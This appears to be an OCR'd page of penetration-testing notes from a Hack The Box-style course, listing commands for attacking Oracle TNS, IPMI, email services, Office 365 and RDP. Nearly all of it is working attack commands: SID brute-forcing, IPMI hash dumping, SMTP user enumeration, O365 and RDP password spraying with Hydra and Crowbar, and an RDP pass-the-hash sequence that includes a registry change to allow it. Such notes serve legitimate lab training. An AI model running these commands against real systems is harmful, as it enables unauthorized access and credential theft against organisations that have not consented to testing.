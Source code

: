 ## Oracle TNS

- sudo nmap -p1521 -sV 10.129.204.235 --open
- sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
- ./odat.py all -s 10.129.204.235
- sqlplus scott/tiger@10.129.204.235/XE

### IPMi

- sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
- scanner/ipmi/ipmi_version
- scanner/ipmi/ipmi_dumphashes
- /usr/share/metasploit-framework/data/wordlists/password.lst

### Email

- sudo apt-get install evolution
- Note: If an error appears when starting evolution indicating "bwrap: Can't create file at ...", use this command to start evolution export WEBKIT_FORCE_SANDBOX=0 && evolution.
- Host - MX Records
    - host -t MX [hackthebox.eu](http://hackthebox.eu/)
    - dig mx [plaintext.do](http://plaintext.do/) | grep "MX" | grep -v ";"
    - dig mx [inlanefreight.com](http://inlanefreight.com/) | grep "MX" | grep -v ";"
    - host -t A mail1.inlanefreight.htb.
    - sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
- MIsconfiguration
    - telnet 10.10.110.20 25
        - VRFY root
        - EXPN john
        - EXPN support-team
- smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
- O365 Spray
    - python3 [o365spray.py](http://o365spray.py/) --validate --domain msplaintext.xyz
    - python3 [o365spray.py](http://o365spray.py/) --enum -U users.txt --domain msplaintext.xyz
- Password attacks
    - hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
- O365 Spray - Password Spraying
    - python3 [o365spray.py](http://o365spray.py/) --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
- 

### RDP

- nmap -Pn -p3389 192.168.2.143
- Crowbar - RDP Password Spraying
    - crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123’
- Hydra - RDP Password Spraying
    - hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
- RDP Pass-the-Hash (PtH)
    - C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
    - xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
